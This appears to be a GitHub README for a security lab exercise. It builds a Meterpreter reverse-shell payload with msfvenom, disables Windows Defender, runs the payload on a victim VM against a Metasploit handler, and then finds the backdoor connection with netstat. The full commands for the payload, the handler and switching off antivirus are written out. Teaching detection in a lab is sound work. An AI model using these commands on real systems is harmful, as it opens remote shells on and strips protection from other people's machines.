







# WarmUp

Create a malware with msfvenom, execute it on the victim machine and investigate with built-in win tools
Let's start it.

### Step 1

Open a Terminal as Administrator and select "Yes" at UAC prompt.
In the default Powershell window, run the following command to disable Defedner. 
Remember, our goal here is not bypass endpoint protection.

`Set-MpPreference -DisableRealtimeMonitoring $true`

Check if Defender is really turned off with (should be False):

`Get-MpComputerStatus | select RealTimeProtectionEnabled`

### Step 2

First, open an Terminal window as Administrator (CTRL + Click)


Click Yes at the User the User Account Control Prompt.

Open a Kali linux command prompt: 


On the Kali console, check the IP address with:

```bash
ifconfig
```



Mark the IP address of the Kali linux machine eth0 interface. Your IP will be DIFFERENT!

Run the following command to create a simple backdoor.

`sudo su -`

`msfvenom --platform Windows -a x86 -p windows/meterpreter/reverse_tcp lhost=<YOUR ETH0 IP> lport=4444 -f exe -o /tmp/beliveme.exe`

`ls -l /tmp/beliveme.exe`

Copy the malware to the share folder accesible by the Victim machine
`cp /tmp/beliveme.exe /mnt/c/temp`

`ls -l /mnt/c/temp/`

Now, we need to start the handler on attacker (Linux) machine. We need one more shell to the Linux box. Select the down carrot from the upper tabs on the Winodws Terminal and select kali-linux



Become a root:

`sudo su -`

Start the metasploit handler:

$`msfconsole -q`

msf6 > `use exploit/multi/handler`

msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

msf6 exploit(multi/handler) > `set LHOST <YOUR ETH0 IP>` Your IP will be DIFFERENT

msf6 exploit(multi/handler) > `exploit`


Open a Windows command prompt, by selecting the down carrot from the the Windows Terminal.
Once it's opened, run these commands:

`cd \temp`

`beliveme.exe`

You should have similar output:



### step 3

Now that we have a backdoor connections, let's investigate it. We know what to look for..this time! :)
Have an administrator terminal session ready and execute the following command:
TIPP1: -b switch needs admin rights and it's very usefull. It shows the executable involved in creating each connections or listening port.

```cmd
netstat -naob
```


TIPP2: You can check the help for netstat (or any other commands) cmd switches

```cmd
netstat /?
```


List only the ESTABLISHED connections:
```cmd
netstat -naob | findstr "ESTABLISHED"
```

List only the LISTENING connections:
```cmd
netstat -naob | findstr "LISTENING"
```

If you have RDP (or similar) access you can use TCPView application from the SysInternals package



### step 4

### step 5
